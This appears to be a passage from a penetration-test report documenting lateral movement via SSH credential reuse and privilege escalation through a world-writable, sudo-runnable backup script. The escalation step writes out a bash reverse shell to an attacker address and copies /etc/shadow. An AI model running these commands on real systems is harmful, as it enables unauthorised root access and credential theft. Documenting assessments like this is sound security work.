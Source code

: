 
### 🔀 Phase 4: Lateral Movement Evidence

#### Credential Reuse Testing

```bash
# SSH Lateral Movement Attempt
ssh jsmith@192.168.78.20
Password: Welcome123!

Welcome to Ubuntu 20.04.3 LTS
Last login: Mon Aug 14 10:23:12 2025 from 192.168.78.10

jsmith@app-server-01:~$ id
uid=1002(jsmith) gid=1002(jsmith) groups=1002(jsmith),sudo

jsmith@app-server-01:~$ whoami
jsmith

# SUCCESS: Lateral movement via credential reuse
```

#### Privilege Escalation Vector Discovery

```bash
# Sudo Privileges Check
jsmith@app-server-01:~$ sudo -l
Matching Defaults entries for jsmith on app-server-01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jsmith may run the following commands on app-server-01:
    (root) NOPASSWD: /opt/scripts/backup.sh

# Backup Script Analysis
ls -la /opt/scripts/backup.sh
-rwxrwxrwx 1 root root 245 Aug 10 14:32 /opt/scripts/backup.sh

cat /opt/scripts/backup.sh
#!/bin/bash
# Database backup script
mysqldump -u root -p$DB_PASS application_db > /backups/db_backup_$(date +%F).sql

# CRITICAL: World-writable script with root execution privileges
```

---

### ⬆️ Phase 5: Privilege Escalation Evidence

#### Backup Script Exploitation

```bash
# Script Replacement for Root Access
cat > /tmp/backup_exploit.sh << 'EOF'
#!/bin/bash
# Reverse shell to attacker machine
bash -i >& /dev/tcp/192.168.78.100/4444 0>&1

# Also extract password hashes for further attacks
cat /etc/shadow > /tmp/hashes.txt
EOF

chmod +x /tmp/backup_exploit.sh
cp /tmp/backup_exploit.sh /opt/scripts/backup.sh

```